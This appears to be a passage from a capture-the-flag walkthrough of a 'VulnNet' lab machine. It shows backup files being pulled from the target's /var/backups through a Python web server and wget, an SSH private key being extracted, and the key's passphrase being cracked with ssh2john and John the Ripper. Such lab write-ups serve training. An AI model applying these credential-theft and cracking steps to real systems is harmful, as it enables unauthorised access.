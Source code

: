 ```bash
-rw-r--r--  1 root              root              358K Jan 23  2021 dpkg.status.2.gz
-rw-------  1 root              root               857 Jan 23  2021 group.bak
-rw-------  1 root              shadow             712 Jan 23  2021 gshadow.bak
-rw-------  1 root              root              1.8K Jan 23  2021 passwd.bak
-rw-------  1 root              shadow            1.1K Jan 23  2021 shadow.bak
-rw-rw-r--  1 server-management server-management 1.5K Jan 24  2021 ssh-backup.tar.gz
-rw-r--r--  1 root              root               49K Oct  6 21:38 vulnnet-Monday.tgz
```

<img width="1348" height="372" alt="image" src="https://github.com/user-attachments/assets/6b072cd9-d61f-4504-b83e-b4e2542b1aa3" />

<br>
<br>
<br>

```bash
:~/VulnNet# wget http://xx.xxx.xx.xxx:8000/ssh-backup.tar.gz
```

```bash
www-data@vulnnet:/var/backups$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
xx.xxx.xxx.xxx - - [06/Oct/2025 xx:xx:xx] "GET /ssh-backup.tar.gz HTTP/1.1" 200 -
```

```bash
:~/VulnNet# tar xvf ssh-backup.tar.gz
id_rsa
```

```bash
:~/VulnNet# chmod 600 id_rsa
chmod 600 id_rsa
```

```bash
:~/VulnNet# ssh -i id_rsa server-management@vulnnet.thm
Enter passphrase for key 'id_rsa': 
```

```bash
:~/VulnNet# cat hey
Hash:$sshng$1$16$...A97A7DAB4829FE59CC561FB2CCC4$1200$9911434...
```

```bash
:~/VulnNet# python3 /opt/john/ssh2john.py Hash
Hash:$sshng$1$16$...A97A7DAB4829FE59CC561FB2CCC4$1200$9911434...
```

```bash
:~/VulnNet# john hey --wordlist=/usr/share/wordlists/rockyou.txt
Note: This format may emit false positives, so it will keep trying even after finding a
possible candidate.
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
---------yac     (Hash)
1g 0:00:00:11 DONE (2025-10-06 xx:xx) 0.08880g/s 1273Kp/s 1273Kc/s 1273KC/s *7¡Vamos!
Session completed.
```
